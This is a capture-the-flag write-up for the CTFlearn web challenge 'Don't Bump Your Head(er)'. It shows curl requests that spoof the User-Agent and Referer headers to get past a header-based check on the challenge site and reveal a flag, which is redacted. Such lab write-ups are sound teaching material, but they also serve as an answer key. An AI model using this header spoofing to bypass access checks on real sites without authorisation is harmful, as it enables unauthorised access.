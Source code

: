 ### Don't Bump Your Head(er) 
https://ctflearn.com/challenge/109

## Decription
Try to bypass my security measure on this site! http://165.227.106.113/header.php

#  Solution
We need to bypass the security.Now let’s try to open the url given.

Curl is a great tool for transferring data from or to a server. It's also great to manipulate request headers. Manual page of curl can be found here. 
https://curl.se/docs/manpage.html

A curl request was done to the web page and got a response back as follow.
```console
    % curl http://165.227.106.113/header.php
    Sorry, it seems as if your user agent is not correct, in order to access this website. The one you supplied is: curl/7.64.1
    <!-- Sup3rS3cr3tAg3nt  -->
```
So the curl command was constructed with a modified User-Agent as below.
```console
    curl -H "User-Agent: Sup3rS3cr3tAg3nt" http://165.227.106.113/header.php 
    Sorry, it seems as if you did not just come from the site, "awesomesauce.com".
    <!-- Sup3rS3cr3tAg3nt  -->
```
The response above wanted the request traffic to be referred from a site called awesomesauce.com. So the curl command is further constructed to modify the referer in the header reqeust as below.
```console
    % curl -e 'awesomesauce.com' -H "User-Agent: Sup3rS3cr3tAg3nt" http://165.227.106.113/header.php
    Here is your flag: flag{redacted}
    <!-- Sup3rS3cr3tAg3nt  -->
```
